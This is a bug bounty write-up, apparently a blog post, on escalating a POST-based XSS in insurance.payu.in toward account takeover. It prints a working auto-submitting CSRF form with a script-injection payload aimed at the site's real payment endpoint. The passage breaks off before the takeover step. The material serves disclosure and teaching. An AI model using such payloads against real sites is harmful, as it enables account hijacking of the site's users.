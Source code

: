 ```yaml
---
layout: post
title:  "XSS to Account takeover in payu.in"
description: In this writeup I will show that How I escalated XSS to account takeover.
---
```


Hi, I found a POST based XSS and then I escalated it to acheive complete account takeover when victim visits my website. So here is the writeup in which I will show you that How I escalated it.

I got notification of XSS in insurance.payu.in. I decided to check it and it was a POST based XSS.

![image](../../../assets/images/payu-xss-1.png){: .imagePopup}

So we had to use POST based XSS with CSRF to exploit it against other users. I created a HTML file with the following form which will submit POST parameters when we visit the website.

```javascript
<!DOCTYPE html>
<html>
<head>
  <title>POC</title>
</head>
<body onload="submitPayuForm()">
<script type="text/javascript">
/* auto submit form when user visits our website. */
function submitPayuForm() {
  var payuForm = document.forms.payuFormExploit;
  payuForm.submit();
}
</script>

<form method="POST" action="https://insurance.payu.in/payment.php" hidden="" name="payuFormExploit">
  <input type="text" name="name" value="Aman Rawat">
  <input type="text" name="mobile" value="999999999">
  <input type="text" name="email" value='email"><script>alert("XSS");</script>'>
  <input type="text" name="customerid" value="12345">
  <input type="text" name="amount" value="12345">
  <input type="Submit" name="Submit">
</form>

</body>
</html>
```

In above code email parameter was vulnerable so I entered payload there and now opening this HTML file in browser will popup an alert.

**Is this popup enough ? Obviously not. XSS is not only about popup an alert.**

So I decided to check weather I can escalate it or not so I created an account on payu.in and loggedin into my account. I updated my name to check the request and I found that request contains an authentication token and cookies. I copied authentication token and searched it then I found that cookies are also using same authentication token so I removed cookies to check weather they were checking cookies also to validating request or not.
